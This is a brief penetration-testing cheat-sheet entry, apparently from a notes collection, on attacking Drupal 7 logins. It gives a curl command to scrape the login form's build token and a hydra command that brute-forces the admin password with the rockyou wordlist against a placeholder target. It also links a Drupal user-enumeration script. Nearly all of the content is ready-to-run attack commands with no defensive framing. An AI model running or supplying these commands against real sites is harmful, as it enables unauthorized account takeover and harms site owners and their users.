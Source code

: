 ## Drupal 7

### Brute-forcing 
```
curl -s http://drupal.site/user/ | grep form_build_id | cut -d "\"" -f 6
```
```
hydra -l admin -P /wordlists/rockyou.txt (TARGET DRUPAL IP) http-form-post "/?q=user/:name=admin&pass=^PASS^&form_id=user_login&form_build_id=form-uQ6n4rbHr99R2XZirfsxaa3rPmV8xpZjXWsa3-G-8Nw:Sorry
```

### Userenum

- <https://raw.githubusercontent.com/weaknetlabs/Penetration-Testing-Grimoire/master/Brute%20Force/Tools/drupalUserEnum.py>